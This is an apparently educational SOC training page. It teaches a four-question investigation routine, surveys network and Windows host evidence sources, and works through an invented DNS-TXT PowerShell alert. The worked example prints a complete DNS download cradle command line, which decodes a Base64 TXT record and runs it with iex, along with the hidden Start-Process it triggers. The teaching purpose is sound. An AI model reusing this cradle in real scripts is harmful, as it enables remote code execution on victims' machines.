

# Starting an Investigation — The Question, the Data, Where It Lives and How to Get It Out { #questions-and-data }

!!! abstract "What this page covers"
    How to start an investigation without wasting the first hour. A simple four-question routine — **what question am I answering, what data would answer it, how do I get that data out, and what does it tell me** — known in forensics circles as the Alexiou Principle, applied to four invented alerts: a credential-phishing landing page, repeated VNC authentication failures, a remote-access-trojan check-in, and a Base64 PowerShell command arriving in a DNS TXT answer. For each alert we write the validation question and the follow-up questions, then choose the data that answers them. Next comes a tour of **every place a single web connection leaves a trace** (browser, DNS cache, DNS server, host firewall and EDR, NetFlow, IDS and metadata sensors, proxy, perimeter firewall, full packet capture, border router), then the host side — **what ran, why it ran, and the forensic artefacts Windows keeps for its own reasons** (Prefetch, AppCompatCache, Amcache, MUICache, UserAssist, recent-file lists, memory). Then **alternative sources**: what to do when the "official" log is missing, with a table of primary and fallback sources for the questions SOC analysts ask most. Then **when outside information is needed** — open-source and closed-source intelligence — and finally **how to extract the data**: which console to use for which question and why every tool has its own query language. Alert D is worked end to end: Zeek `dns.log`, `ipconfig /displaydns`, Sysmon 22, 4688 and 4104 read field by field. The 2026 view and practice questions close the page.

!!! note "Labels"
    **[Supplement]** = practical material you need to know, **[Correction]** = a commonly repeated claim that is wrong or outdated, **[Changed]**/**[Caution]** = what has changed recently and what is risky to do the old way. The company (Bluegum Freight), hostnames, accounts, domains, IPs, alert names and log lines are invented for illustration (`.example`, documentation and private IPs). Tools, frameworks and their authors are real and described in my own words.

## The 8 key points { #key-points }

1. **Pause before you click.** The first two minutes of an investigation are for planning, not searching. A clear question saves the hour you would otherwise spend scrolling.
2. **Four questions structure every investigation:** What question am I trying to answer? What data would answer it? How do I get that data out? What does it tell me? It is decomposition applied to the investigation itself.
3. **The first question is always "is this alert valid?"** — and right behind it, "what else could look exactly like this?". Only after that come the follow-up questions a true positive would raise.
4. **Pick the data that answers the question most definitively,** not the data that is easiest to reach. The proxy tells you a user visited a page; only the packet capture or the identity log tells you whether they typed a password.
5. **One connection leaves traces in up to ten places.** Browser, DNS cache, DNS server, host firewall/EDR, NetFlow, IDS/metadata sensor, proxy, firewall, full PCAP, border router. When your favourite source is missing, the others are still there.
6. **On the host, ask "what ran" and "why did it run".** Process logs, EDR, AV and application control say *what*; parent processes, services, tasks and autostart locations say *why*; Windows' own housekeeping artefacts say *when it first ran*, even when no security log was on.
7. **Know your alternative sources.** Every important question has a primary source and several fallbacks. Fast analysts are the ones who know the fallbacks before they need them.
8. **Know where each data type lives and which tool answers the question best.** The IDS console for packets, the SIEM for correlation, the EDR for process trees — and each has its own query language you need to be fluent in.

## Why this matters in a SOC { #why }

Think of a plumber called out to a leak. A bad plumber starts pulling up floorboards. A good one asks first: *where is the water appearing, when did it start, is it hot or cold?* Those three questions decide which pipe to look at, and the floorboards stay where they are.

Back to the technical reality. A new analyst who opens an alert tends to do the same as the bad plumber: open the SIEM, type the IP address, and start reading whatever comes back. Forty minutes later there are twelve browser tabs open, a vague feeling that "something looks odd", and no answer. The problem isn't skill with the tools; it's that nobody decided what the answer would look like. The routine on this page fixes that. It also has a quieter benefit: when your notes start with the question you were answering and the data you chose, a reviewer can see in seconds whether the conclusion follows — which is exactly what the case-review section will ask for later.

## The four questions { #four-questions }

A widely shared forensics blog post from 2009 set out a short checklist that its author named after Mike Alexiou, a forensic investigator he worked with. It is now usually called the **Alexiou Principle**. In my own words, before you dig, answer:

1. **What question am I trying to answer?** Is the device compromised? Which C2 server is it talking to? What malware is it? Did data leave? Be specific: "is something bad happening on PC-0412?" is not a question you can finish; "did PC-0412 execute the attachment from the 09:14 email?" is.
2. **What data do I need to answer it?** Imagine the evidence that would settle the question *as definitively as possible*, then name the log type. "A process-creation event showing the attachment's file as a child of Outlook" is precise; "some host logs" is not.
3. **How do I get that data?** Where does it live — the host, the SIEM, the EDR console, the packet-capture system, an online service? Do you have access? How long is it kept? Then go and get it.
4. **What does that data tell me?** This is the analysis proper: interpreting what you collected, against all the hypotheses that could explain it, not just your favourite one.

**[Supplement]** Notice what this is: **decomposition**, the same technique the structured-analysis section used against the limits of working memory. "Investigate this alert" is one large, vague task; four small questions are four tasks you can finish and write down. Write the answers to questions 1 and 2 in the ticket *before* you search. It takes a minute and it stops you drifting.

## #1 — What question are you trying to answer? { #q1 }

Here are the four alerts that arrive in Bluegum Freight's queue on a Tuesday morning (invented rule names in the style of common network IDS rule sets):

| Alert | Rule title | Source → destination |
| --- | --- | --- |
| A | `PHISHING Credential Harvest Landing Page - Webmail Brand Kit` | 10.20.4.37 (BG-WS-0437) → 203.0.113.140:443 |
| B | `EXPLOIT VNC Multiple Authentication Failures` | 198.51.100.66 → 10.20.1.15 (BG-PLC-GW01):5900 |
| C | `MALWARE Generic RAT Check-in Beacon` | 10.20.6.12 (BG-WS-0612) → 203.0.113.9:8443 |
| D | `ATTACK_RESPONSE PowerShell Base64 Start-Process in DNS TXT Response` | 10.20.0.53 (BG-DNS01) ← 198.51.100.200:53 (for client 10.20.3.88, BG-WS-0388) |

For each one, ask two layers of questions. The first layer is always the same: **is this a valid alert, and what else might look like this?** The second layer is what you would need to know if it *is* valid. Your playbooks should prompt these, but you need to be able to produce them yourself for the day an alert falls outside every playbook.

**Alert A — phishing landing page.**

- *Validation:* Did the user really load a phishing page, or did the rule match on a legitimate page that uses the same brand images? Was it a page load, or just a prefetch by a link-preview service or the mail gateway's own URL scanner?
- *If valid:* Did the user click a link in an email? Which email, from whom? Who else received it, and did anyone else click? **Did the user type anything into the page** — and if so, which account, and has that account signed in from anywhere new since? (T1566.002 Phishing: Spearphishing Link for the delivery; T1598.003 Phishing for Information: Spearphishing Link for the credential theft; T1078 Valid Accounts if the password is later used.)

**Alert B — VNC authentication failures.**

- *Validation:* Was it really VNC, or something else on port 5900? Were these real repeated failures, and how many? Is the source an expected address?
- *If valid:* Do we allow VNC at all? To this host, from the internet? Which account (or the shared VNC password) was being tried? Who was logged on at the time? Did any attempt succeed? (T1110.001 Brute Force: Password Guessing against T1021.005 Remote Services: VNC, and T1133 External Remote Services if it is reachable from outside.)

**Alert C — RAT check-in.**

- *Validation:* Is this host infected, or did a legitimate application send traffic that resembles the rule's pattern? Is this traffic really a check-in to a command-and-control server?
- *If valid:* Was the traffic allowed or blocked? Which process sent it? How did that program arrive and how does it persist? When did the beacon start? Is anyone else talking to the same destination? (T1071.001 Application Layer Protocol: Web Protocols, T1571 Non-Standard Port — 8443 here.)

**Alert D — PowerShell in a DNS TXT answer.**

- *Validation:* Did a DNS response really contain a PowerShell command? Is it the command the alert claims? Who asked the question — the DNS server is only relaying for a client.
- *If valid:* Which process on the client made the lookup? What did it do with the answer — was a process started? What is its parent? Which domain was queried, and is anyone else querying it? (T1071.004 Application Layer Protocol: DNS, T1059.001 Command and Scripting Interpreter: PowerShell.)

Notice that none of these questions is "is this IP bad?". Reputation is a useful clue, but it is not what any of these alerts is ultimately about.

## #2 — What data do you need to answer the question? { #q2 }

Now, for each question, the *best* evidence. This is where knowing your data sources deeply pays off: the faster you can name the most useful source, the faster you finish.

| Alert | Question | Best data | Why that source |
| --- | --- | --- | --- |
| A | Did the user visit the page? | Proxy or HTTP(S) logs; DNS logs | Show the URL (proxy) or at least the domain and time (DNS) for that host |
| A | Did they type anything? | Full PCAP (if decrypted) or proxy logs showing a `POST` to the page; identity-provider sign-in logs afterwards | A `GET` is a visit; a `POST` with a body is a submission; a new sign-in from a strange place is the consequence |
| A | Which email, who else? | Mail gateway / SMTP logs, message trace | Map the URL back to messages and recipients |
| B | Was it really VNC, how many failures? | PCAP, Zeek `conn.log`, NetFlow; the IDS alert's packet | Confirm the protocol, count connections, see whether they were short failures |
| B | Is VNC allowed? | Policy documents, firewall rule base, asset owner | Only the business can say what is permitted |
| B | Which account, did it succeed? | The VNC server's own log; Windows Security log on the host | VNC servers log authentication results; the OS logs who was logged on |
| B | Who is behind the account? | Directory and HR data | Is the account a person, a shared login or a vendor? |
| C | Is the traffic really malicious? | PCAP or HTTP(S)/TLS metadata (Zeek `http.log`/`ssl.log`) | Compare the actual request with what the rule expects |
| C | Which process, how did it get there? | EDR, Sysmon 1 and 3, 4688, AV and application-control logs | Network logs stop at the IP; the host knows the process |
| D | Was the TXT answer really a command? | DNS logs that include **responses** (Zeek `dns.log`, DNS analytic logs) | Many DNS logs record only the question — useless here |
| D | What was run? | PowerShell 4104 script block logs, 4688/Sysmon 1, EDR | Show the decoded command and the process tree |

Two lessons hide in this table.

**First, validation and follow-up often need different sources.** Alert A's "did they visit" is answered by the proxy in seconds; "did they type" needs something much richer.

**Second, the network can only take you so far.** Every alert here ends with a question only the host can answer: which process, which account, what ran. That is why the network part and the host part of these notes came before this section.

**[Supplement]** For alert D, check *before* you need it whether your DNS logging records answers. Windows DNS Server's debug log and the DNS analytic channel can, Zeek's `dns.log` does (`answers` field), but plenty of DNS logging pipelines record only the queried name. Finding this out during an incident is too late.

## #3 — All the places a network connection leaves a trace { #network-sources }

Take the simplest possible event: a user at BG-WS-0437 types a URL into a browser at 09:16. Count the places that record something about it.



The source above is Mermaid: `graph LR` draws left to right, each `X["label"]` is a box, and each `-->` an arrow in the order the traffic passes.

1. **Browser history.** The URL is written to the browser's history database. It's not collected centrally, but on a live or imaged host it works in a pinch.
2. **DNS cache and DNS server.** The host resolves the name. The resolved answer sits in the Windows DNS client cache (`ipconfig /displaydns`), and the internal DNS server logs the source, the name and — if configured — the answer.
3. **The host itself.** The Windows firewall can log the outbound connection; EDR and Sysmon (event 3, network connection; event 22, DNS query) record which process made it.
4. **NetFlow on the internal network.** Switches and routers summarise the flow: source, destination, ports, bytes, time.
5. **IDS and metadata sensors.** Suricata alerts, Zeek writes `conn.log`, `dns.log`, `ssl.log`/`http.log`.
6. **The proxy.** Records source and destination, the URL (with TLS inspection, the full path; without it, at least the host name from the CONNECT request or SNI) and often the **username**.
7. **The perimeter firewall.** Logs the connection again, often after NAT, so the inside address may only appear in its translation table.
8. **Full packet capture.** Records the whole transaction, byte for byte, for as long as storage allows.
9. **The border router.** May record NetFlow again as the traffic leaves.

Most analysts would go straight to the proxy as "the" source for web traffic. That is the right first stop — but the list shows how much is left if the proxy is down, bypassed or simply didn't log that request.

A quick look at one of those sources on the host itself. On BG-WS-0388 (alert D's client), an analyst with remote access runs:

```
C:\> ipconfig /displaydns
```

Part of the output:

```
    upd-telemetry.example
    ----------------------------------------
    Record Name . . . . . : upd-telemetry.example
    Record Type . . . . . : 16
    Time To Live  . . . . : 41
    Data Length . . . . . : 8
    Section . . . . . . . : Answer
    TXT Record  . . . . . :
```

- `Record Name` — the name that was resolved.
- `Record Type . . . . . : 16` — type 16 is **TXT**. A normal browsing PC rarely looks up TXT records, except for a few email and verification purposes; seeing one cached is already interesting.
- `Time To Live . . . . : 41` — 41 seconds left before Windows forgets it. The cache is volatile: it holds only recent lookups, and a reboot or `ipconfig /flushdns` wipes it. Collect it early.
- `Section . . . . . . . : Answer` — this was the answer section of the response.
- `TXT Record` — Windows often shows TXT data poorly or not at all in this view, so treat the cache as proof *that* a lookup happened, not of *what* came back. The DNS server or Zeek log is where the content lives.

## #3 — All the places the host records what ran { #host-sources }

On the host, split the question in two.

**What ran?** Intentional security logging:

- **AV, EDR, HIPS** — detections, process trees, file and network events.
- **Application control** (AppLocker, WDAC/App Control for Business) — allowed and blocked executions, with paths and hashes.
- **Sysmon event 1** and **Security event 4688** — process creation with command line and parent. 4688 fires every time a new process is created, if "Audit Process Creation" is enabled (and the command line is only recorded if that extra policy setting is on). Attackers care because it is the event that exposes their commands; that is why they prefer to run inside existing processes or clear logs.
- **PowerShell logs** — 4104 script block logging records the code PowerShell actually ran, *after* decoding, which is why attackers try to downgrade to PowerShell 2.0 or disable it.

**Why did it run?** Context that explains the execution:

- **The parent process** — `WINWORD.EXE` starting `powershell.exe` tells a very different story from `explorer.exe` starting it.
- **Running processes and their tree** at the time of collection.
- **Installed services** (7045 when a new service is installed) and **scheduled tasks** (4698 when created).
- **Autostart extensibility points (ASEPs)** — Run keys, startup folders, WMI subscriptions and the hundreds of other places Sysinternals Autoruns lists.

This tells you whether something is a normal system service or task or something new, and what started it.

**Forensic sources — what Windows remembers for its own reasons.** These artefacts exist to make Windows faster or more convenient, not to audit anything, which is exactly why they're useful: attackers forget them, and they exist even when security logging was off.

| Artefact | What Windows uses it for | What it can tell you | Caveats |
| --- | --- | --- | --- |
| **Prefetch** (`C:\Windows\Prefetch\*.pf`) | Speeding up program start | That a program ran, run count, last (up to 8) run times, files it loaded | Off by default on many servers; limited to 1024 files |
| **AppCompatCache / Shimcache** (SYSTEM hive) | Application compatibility checks | That a file existed on the system (and on older Windows, often that it ran), path, file modification time | On Windows 10/11 presence ≠ execution; written at shutdown |
| **Amcache.hve** **[Supplement]** | Application inventory | Path, SHA-1 of the file, first-seen times | Records presence and installation, not always execution |
| **MUICache** (user's `UsrClass.dat`) | Caching program display names | Programs a user launched through the shell | Per user, no reliable time per entry |
| **UserAssist** (user's `NTUSER.DAT`) | Start-menu and Explorer usage stats | GUI-launched programs, run count, last run time (ROT13-encoded names) | Only programs started through Explorer |
| **RecentDocs / Office MRU / Jump Lists** | "Recent files" lists | Which documents a user opened, and when | Per user and per application |
| **Memory** | — | Running processes, network connections, injected code, decrypted strings | Lost at reboot; collect early |

**[Supplement]** You don't need to collect these by hand. Collection tools such as Velociraptor and KAPE gather them across many hosts in minutes, and the Eric Zimmerman tools parse them (PECmd for Prefetch, AppCompatCacheParser, AmcacheParser, RECmd for registry keys). An older PowerShell framework built for this, Kansa, is still on GitHub but is no longer actively developed; modern teams generally use Velociraptor or their EDR's live-response features instead.

**A worked example: alert C on the host.** The network says BG-WS-0612 beacons to 203.0.113.9:8443. The EDR shows a process `C:\Users\r.okafor\AppData\Local\Temp\vcupd.exe` making the connections. The analyst checks three artefacts:

- Prefetch file `VCUPD.EXE-3A1F2C04.pf`: run count 9, first run 18 November 08:52.
- Amcache entry for the same path with a SHA-1 that matches the EDR's hash.
- A Run key `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\VCUpdate` pointing to the file (T1547.001 Boot or Logon Autostart Execution: Registry Run Keys).

Three independent sources now answer "what ran, since when, and why does it keep running" — the questions alert C raised.

## Alternative sources of information { #alternative-sources }

Every type of question has a **primary source** — the system built to record it — and **alternative sources** that happen to contain the same information or allow it to be inferred.

- IP address assignment → DHCP logs.
- Web traffic → proxy logs.
- Logons → Windows Security log.

Now imagine someone takes the primary source away: the proxy was bypassed, the DHCP server rolled its logs, the domain controller's Security log wrapped overnight. Could you still answer the question? Investigations are rarely done with perfect information, and the analysts who are fast are the ones who know the fallbacks *in advance*.

| Question | Primary source | Alternative sources |
| --- | --- | --- |
| Which device had IP 10.20.3.88 at 07:40? | DHCP leases | 4624 `IpAddress` on servers it logged on to; Kerberos 4768/4769 on the DC (client address); EDR inventory; VPN/NAC logs; wireless controller; switch ARP/MAC tables |
| Who visited `invoice-portal.example`? | Proxy (URL + user) | DNS server logs (host + name); Zeek `dns.log`/`ssl.log` (SNI); firewall; NetFlow (by IP); Sysmon 22/3; browser history |
| Who logged on to BG-FS02? | Security 4624/4625 on BG-FS02 | DC 4768/4769/4776; EDR logon events; RDP logs (`TerminalServices-*` channels); file-share audit 5140; VPN or identity-provider sign-ins |
| What ran on BG-WS-0612? | EDR / 4688 / Sysmon 1 | Prefetch; Amcache; Shimcache; AV logs; application control; 4104; memory |
| Did data leave? | DLP / proxy upload logs | NetFlow and Zeek `conn.log` byte counts; firewall session bytes; cloud audit logs (SharePoint/OneDrive/S3); EDR file events |

**4624** is "an account successfully logged on" and its `IpAddress` field shows where a network logon came from; **4768** is a Kerberos TGT request on a domain controller and **4769** a service-ticket request, both with the client's address; **4776** is NTLM credential validation on the DC. Attackers care about all of them because they record the stolen credentials being *used* — which is why lateral movement shows up on the DC even when the target host's log is gone.

**[Supplement]** Build this table for *your* network: list the six questions you are asked most, and next to each, every source in your environment that could answer it, with how long each source is kept. Retention is part of the answer: a fallback that keeps seven days is useless for a ten-day-old event.

## Is outside information needed? { #osint }

Sometimes the SIEM and the threat-intelligence platform have everything you need. Often they don't: the domain is brand new, the hash has never been seen in your environment. Then you need **open-source intelligence (OSINT)** — taking the pieces you extracted (a domain, an IP, a hash, a string) and searching publicly available sources for context:

- **Reputation and sandbox services** — VirusTotal, Hybrid Analysis, urlscan.io, and similar.
- **Security vendors' research blogs** and malware write-ups that mention the indicator or the technique.
- **Code and search engines** — GitHub (a string from a script may lead to the public tool it came from), general web search.

Don't forget **closed-source** intelligence: information you can access that is not public — sector **ISACs** (Information Sharing and Analysis Centers) and **ISAOs** (Information Sharing and Analysis Organizations), national CERT partner portals, premium subscriptions to sandbox and reputation services, and vendor threat-intelligence reports. These often contain exactly the context public sources lack, and some of it is shared under restrictions (TLP) that the OPSEC section explains.

**[Caution]** Every lookup is also a disclosure. Searching a hash is usually harmless; **uploading** a file or **submitting** a URL for a public scan can publish your company's document, reveal a victim-specific link, or show the attacker that you've noticed. Know each service's visibility settings (for example, urlscan.io offers public, unlisted and private scans) before you submit anything from a live case. This gets a full treatment in the analysis OPSEC section.

## #3 — How do you extract the data? { #q3 }

Once you know the data type, find where it lives and how to pull it out. An efficient analyst knows three things:

1. **Where each type of data is held** — often in more than one place.
2. **Which tool is best for this question** — the SIEM or the point product.
3. **How to phrase the search** in that tool.

Take an IDS alert. It is visible in the IDS's own console *and* forwarded to the SIEM. Which should you use? It depends on the next question:

| If your next question is… | Use | Because |
| --- | --- | --- |
| "Show me the packets that triggered it" | IDS console / packet-capture system (e.g. Arkime) | Most SIEMs don't browse PCAP |
| "What else did this host do in the last hour?" | SIEM | Correlation across log sources is what it is for |
| "Which process made the connection?" | EDR console | Process trees and live response |
| "Who else received this email?" | Mail gateway message trace | It holds the delivery records |

Each tool also has its own query language — SPL in Splunk, KQL in Microsoft Sentinel and Defender, KQL/Lucene/ES|QL in Elastic, Arkime's own expression syntax, and so on. An analyst with an IDS, a packet-capture system and a SIEM needs at least working fluency in three. That is a real hurdle for new analysts, and worth practising deliberately: keep a personal "query cookbook" with one working query per common question for each tool.

## Worked example: alert D from question to answer { #worked-d }

**Question 1 — what am I answering?** Written in the ticket first: *"Did BG-WS-0388 receive and run a PowerShell command delivered in a DNS TXT record? If so, what did it run and is anyone else affected?"*

**Question 2 — what data?** DNS logs with answers (to validate), host DNS and process events (to find the process), PowerShell 4104 (to see the command).

**Question 3 — where and how?** The Zeek sensor in front of BG-DNS01 logs to the SIEM; Sysmon and Security logs from workstations are in the SIEM; the EDR has the process tree.

The Zeek `dns.log` entry for the alert's time (name=value for readability; answer shortened):

```
ts=2026-11-24T23:40:12.118Z  uid=Ct4Lq1  id.orig_h=10.20.0.53  id.orig_p=50213  id.resp_h=198.51.100.200  id.resp_p=53  proto=udp  query=cfg.upd-telemetry.example  qtype_name=TXT  rcode_name=NOERROR  answers=TXT 212 cG93ZXJzaGVsbCAtdyBoaWRkZW4gLWMgU3RhcnQtUHJvY2Vzcy…  TTLs=60
```

- `id.orig_h=10.20.0.53` — the query came from **BG-DNS01**, the internal resolver, not from the PC. That's normal: clients ask the internal server, which asks the internet. To find the real client you need the DNS server's own log or a sensor that sees client-to-server traffic.
- `id.resp_h=198.51.100.200`, `id.resp_p=53` — the authoritative server for `upd-telemetry.example` answered.
- `query=cfg.upd-telemetry.example`, `qtype_name=TXT` — a TXT lookup for a subdomain.
- `answers=TXT 212 cG93ZXJzaGVsbCAt…` — a 212-character TXT answer. `cG93ZXJzaGVsbC` is what the word `powershell` looks like in Base64 — a pattern worth recognising on sight. Decoded offline, the start reads `powershell -w hidden -c Start-Process…`. The alert is **valid**: the answer really contains a PowerShell command.
- `TTLs=60` — a one-minute cache time, so the operator can change the command quickly.

To find the client, the analyst searches the Sysmon logs for **event 22** (DNS query — Sysmon logs each DNS lookup a process makes, with the process name) for that name:

```
EventID=22  UtcTime=2026-11-24 23:40:12.104  Computer=BG-WS-0388  Image=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  ProcessId=6120  QueryName=cfg.upd-telemetry.example  QueryStatus=0  User=BLUEGUM\l.nguyen
```

- `Computer=BG-WS-0388` — the client is found.
- `Image=…powershell.exe` — **PowerShell itself** looked up the TXT record. A browser or mail client doing a TXT lookup would already be odd; PowerShell doing it is a strong sign of a script fetching instructions.
- `ProcessId=6120` — the key to the next pivot.
- `QueryStatus=0` — success.

The process-creation event for PID 6120 (Security **4688**):

```
EventID=4688  Computer=BG-WS-0388  SubjectUserName=l.nguyen  NewProcessId=0x17e8  NewProcessName=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  ParentProcessName=C:\Windows\System32\wscript.exe  CommandLine=powershell.exe -nop -w hidden -c "$t=(Resolve-DnsName cfg.upd-telemetry.example -Type TXT).Strings -join '';iex([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($t)))"
```

- `NewProcessId=0x17e8` — hex for 6120, matching Sysmon.
- `ParentProcessName=…wscript.exe` — Windows Script Host started PowerShell: a `.js` or `.vbs` file was run first. That is the "why did it run" question, and the next pivot (which script, from where — likely a download or attachment, T1204.002 User Execution: Malicious File).
- `CommandLine=…` read piece by piece:
    - `-nop -w hidden` — no profile, hidden window.
    - `Resolve-DnsName … -Type TXT` — look up the TXT record.
    - `.Strings -join ''` — join the TXT strings into one (TXT records are split into chunks of at most 255 characters).
    - `[Convert]::FromBase64String($t)` and `UTF8.GetString` — decode the Base64.
    - `iex(...)` — `Invoke-Expression`: **run** whatever came back. This is a DNS-based download cradle (T1071.004 for the channel, T1059.001 for the execution, T1027 Obfuscated Files or Information for the encoding).

Finally, **4104** (PowerShell script block logging) shows what the decoded command actually did:

```
EventID=4104  Computer=BG-WS-0388  ScriptBlockText=Start-Process -WindowStyle Hidden -FilePath "$env:APPDATA\Bluegum\svchelp.exe"
```

Because 4104 records code *after* PowerShell has decoded it, the Base64 layer is gone and the real action is in plain sight: start a program called `svchelp.exe` from the user's roaming profile.

**Question 4 — what does it tell me?** A script run under `l.nguyen` used PowerShell to pull a Base64 command from a TXT record and execute it, which launched `svchelp.exe`. The follow-up questions write themselves: where did the script come from (mail gateway, browser downloads), what is `svchelp.exe` (hash, EDR, file analysis), and **who else** looked up `upd-telemetry.example`? That last one goes back to the DNS server log and the SIEM across every host. The next page covers how to interpret network data like this layer by layer.

## The 2026 view { #trends }

!!! success "[2026 Current] Still valid"
    The four-question routine is as useful as ever, and arguably more so: the number of data sources in a modern SOC (EDR, SIEM, identity provider, cloud audit logs, SaaS logs, email security) means that "where is the evidence for this?" is a harder question than it was. The idea of primary and alternative sources, the value of Windows' own artefacts (Prefetch, Amcache, Shimcache, UserAssist) and the habit of thinking through every place a connection is logged all remain standard practice. DNS-based command delivery and PowerShell download cradles are still regularly reported.

!!! info "[Changed] What has changed"
    - **Identity and cloud are now first-class data sources.** For alert A in 2026, the decisive evidence is usually not the packet capture but the identity provider's sign-in logs (for example Entra ID sign-ins with location, device and token details) and mailbox audit logs. Many phishing pages are adversary-in-the-middle kits that steal the session cookie, so "did they type a password?" has become "was a session token issued to someone else?".
    - **Packet capture sees less.** TLS 1.3, encrypted client hello and widespread certificate pinning mean full PCAP shows contents only where you decrypt. Endpoint telemetry and application logs carry more of the weight.
    - **AI copilots draft the questions.** SOC copilots in SIEM and XDR products now propose investigation questions and generate queries in KQL, SPL or ES|QL from plain language. That lowers the query-language hurdle, but the analyst still has to check that the query looks at the right data and the right time range — a wrong query that returns nothing reads exactly like "nothing happened".
    - **ATT&CK has reorganised.** In v19 (April 2026) the old Defense Evasion tactic was split into **Stealth** and **Defense Impairment**; technique IDs such as T1027 and T1036 kept their numbers, but T1562 Impair Defenses was replaced by new techniques (for example T1685 Disable or Modify Tools). The current version at the time of writing is v20 (October 2026). Mappings in older playbooks may point at retired IDs.
    - **Tools moved on.** Kansa is no longer actively developed; Velociraptor, KAPE and EDR live response are the usual collection routes. The packet tool once called Moloch has been called Arkime since 2020.

!!! warning "[Caution] Wrong or risky to do the old way"
    - **Don't assume your DNS logs contain answers.** Many pipelines keep only the question. Check now, not during the incident.
    - **Shimcache presence is not execution** on current Windows. Treat it as "the file existed here", and confirm execution with Prefetch, Amcache plus another source, or EDR.
    - **Collect volatile sources first.** The DNS cache, memory and live network connections vanish at reboot — and the usual first reaction of a user or help desk is to reboot.
    - **Public submissions leak.** Uploading a file or scanning a URL publicly from a live case can expose data and tip off the attacker. Search first, submit only with the right visibility setting, and follow your organisation's rules.
    - **"No results" is not "no activity".** Before concluding that nothing happened, confirm the source was logging for that host and time range.

## Practice questions { #quiz }

### Question 1

An alert fires: `EXPLOIT VNC Multiple Authentication Failures` from 198.51.100.66 to an internal server on port 5900. Write the validation questions and three follow-up questions you would answer if it is valid, and name the data source for each.

??? success "Answer and explanation"
    **Validation:** Is it really VNC on port 5900 (PCAP or the IDS packet; Zeek `conn.log` service field)? Were there really repeated failures, and how many (Zeek `conn.log` or NetFlow showing many short connections; the VNC server's log)? Is 198.51.100.66 an expected source, such as a vendor's support address (firewall rules, vendor contracts, asset owner)?

    **Follow-ups, if valid:** (1) Is VNC allowed to this server from the internet at all? — policy documents and the firewall rule base; the answer may make this an exposure problem regardless of the attack (T1133). (2) Did any attempt succeed? — the VNC server's authentication log and the host's Security log (a 4624 or a new interactive session around that time); a success turns this into a likely compromise (T1110.001, T1021.005). (3) Which account or password was tried, and who owns it? — the VNC server log, directory and HR data. A good fourth: has the same source tried other services or hosts? — SIEM search for 198.51.100.66 across firewall and sensor logs.

### Question 2

The proxy that normally tells you which user visited a website was misconfigured for a week, and you need to know who visited `invoice-portal.example` on Monday. Name four alternative sources and what each one gives you — and what each one cannot.

??? success "Answer and explanation"
    1. **Internal DNS server logs** — which internal IP resolved the name, and when. Not the user, and not the full URL. Map IP to device with DHCP.
    2. **Zeek `ssl.log`/`dns.log`** — client IP, server IP, and the SNI host name for HTTPS. Not the URL path or user.
    3. **Sysmon 22 / EDR network events** — the host, the *process* (for example `chrome.exe`) and the logged-on user. Only on hosts that run the agent.
    4. **Firewall or NetFlow logs** — client and server IP, bytes, time. You need the IP the name resolved to, and on shared hosting or CDNs one IP can serve many sites.

    Others: browser history on the host, identity-provider logs if the site used single sign-on, VPN logs for remote users. Combining DNS (name → IP and client), DHCP (client IP → device) and EDR (device → user) reconstructs most of what the proxy would have given you. Check each source's retention first — a fallback kept for three days doesn't help with last Monday.

### Question 3

In the alert D worked example, the Zeek `dns.log` line showed the query coming from 10.20.0.53, the DNS server. A colleague says: "So the DNS server is compromised." What is wrong with that conclusion, how was the real client found, and which single event showed what was executed in readable form?

??? success "Answer and explanation"
    The DNS server is a **resolver**: clients send their queries to it, and it asks external servers on their behalf. A sensor between the DNS server and the internet therefore sees every external lookup coming from the DNS server's address. That proves only that *some* client asked for the name, not that the server is compromised.

    The real client was found with **Sysmon event 22** (DNS query), which records the host, the process and the user that made the lookup: BG-WS-0388, `powershell.exe`, `l.nguyen`. (The DNS server's own query log, or a sensor watching client-to-server traffic, would also work.) The 4688 then showed PowerShell's command line and its parent `wscript.exe`.

    The delivered command never appeared in readable form on the network or in the 4688 command line — only as Base64 in the TXT answer. The event that showed it **decoded** was **4104**, PowerShell script block logging, which records the code after PowerShell has de-obfuscated it: `Start-Process … svchelp.exe`.

## Related { #related }

- [Investigation Questions](index.md) — section overview
- [Link analysis and the event matrix](../structured-analysis/link-analysis-event-matrix.md) — the previous section's organising techniques
- [Prioritising alerts](../alert-triage/prioritising-alerts.md) — deciding which alert to start with
- [DNS collection and investigation](../dns/collection-and-investigation.md) · [DNS abuse](../dns/dns-abuse.md)
- [Process creation events](../important-events/process-creation.md) · [Login events](../important-events/logins.md) · [Accounts, Defender and PowerShell events](../important-events/accounts-defender-powershell.md)
- [Inventory, vulnerabilities and patching](../endpoint-defense/inventory-vulns-patching.md) · [PAWs, EDR, DLP and UEBA](../endpoint-defense/paw-edr-dlp-ueba.md)
- [PowerShell download cradles](../../../adversary/powershell-cradles.md)
